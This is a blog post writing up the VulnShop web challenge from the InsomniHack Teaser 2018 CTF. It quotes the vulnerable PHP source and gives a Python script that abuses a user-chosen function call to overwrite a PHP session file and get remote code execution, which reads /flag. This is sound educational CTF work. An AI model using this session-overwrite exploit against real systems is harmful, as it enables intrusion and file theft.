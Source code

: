 ```yaml
---
layout: post
title:  "Remote Code Execution via Session - InsomniHack Teaser 2018"
comments: true
image: ''
date:   2018-01-21 00:06:31
tags:
- Web Security, CTF, Insomnihack, RCE, Session overwrite
description: 'InsomniHack CTF Vulnshop Web Challenge writeup'
categories:
- Web, CTF, PHP-RCE
---
```



This year's Insomni'Hack had pretty much decent challenges even though it took some time before my team could solve. The first challenge being, `VulnShop`. A pretty straightforward description with a few functionalities in the page along with the source code made it neat and clean.

<figure class="foto-legenda">
	<img src="{{ "/assets/img/writeup2/firstpage"}}" alt="">
</figure>


Going through the source code, two particular function caught my attention: `captcha` and `captcha-verify`.

{% highlight php %}
case 'contactus':
  echo "<p>You can't contact us for the moment, but it will be available later.</p>";
  $\_SESSION['challenge'] = rand(100000,999999);
  break;
case 'captcha':
  if(isset($\_SESSION['challenge'])) echo $\_SESSION['challenge'];
  // Will make an image later
    touch($\_SESSION['challenge']);
    break;
case 'captcha-verify':
// verification functions take a file for later, when we'll provide more way of verification
  function verifyFromString($file, $response) {
  if($\_SESSION['challenge'] === $response) return true;
  else return false;
 }  
{% endhighlight %}

The `$_SESSION['challenge']` does something very interesting which is basically creating a file after calling the `contactus` page
which basically stores a random number between the specified value and in return requesting for `captcha` creates a file with the same generated number.

<figure class="foto-legenda">
	<img src="{{ "/assets/img/writeup2/filecreation"}}" alt="">
</figure>


Let that be pretty much and let's move ahead in the source code. The very next piece of code,

{% highlight php %}
if(isset($\_REQUEST['answer']) && isset($\_REQUEST['method']) && function_exists($\_REQUEST['method'])){
    $\_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
}
{% endhighlight %}

we can see how the request is made, mainly two parameters as `GET` request.

The next part is the main aim of getting the flag. So according to the description and what we understood from the source code, what we can do is, we will make it into 3 steps:
1) Create a file by calling `contactus` and `captcha`
2) Write whatever we want to the file, say `123456`
3) Copy the contents of that particular file to the session variable
4) Execute it

Also there were a few function which were disabled that could be seen in `phpinfo`:

<figure class="foto-legenda">
	<img src="{{ "/assets/img/writeup2/disabled_func"}}" alt="">
</figure>


The script below does all in one go:

{% highlight python %}
#Author gkrishna
#Member of Teambi0s
#insomnihack_teaser 2018
import sys
import requests

url = "http://vulnshop.teaser.insomnihack.ch/"
s = requests.Session()

s.get(url+"?page=contactus")
s.get(url+"?page=captcha")
r = s.get(url+'?page=captcha-verify&method=file_put_contents&answer=challenge|s:35:"print_r(file_get_contents(\'/flag\'))";')
s.cookies.get_dict()['PHPSESSID']
val = "Value of Cookie = " + s.cookies.get_dict()['PHPSESSID']

s.get(url+"?page=captcha-verify&method=rename&answer=/var/lib/php/sessions/sess_"+s.cookies.get_dict()['PHPSESSID'])
r = s.get(url+"?page=captcha-verify&method=verifyFromMath&answer=1")

print r.text
{% endhighlight %}

Towards the end, we call the function `verifyFromMath` which returns the desired string.

Catch me in <a href="https://twitter.com/gkgkrishna33">Twitter</a>.
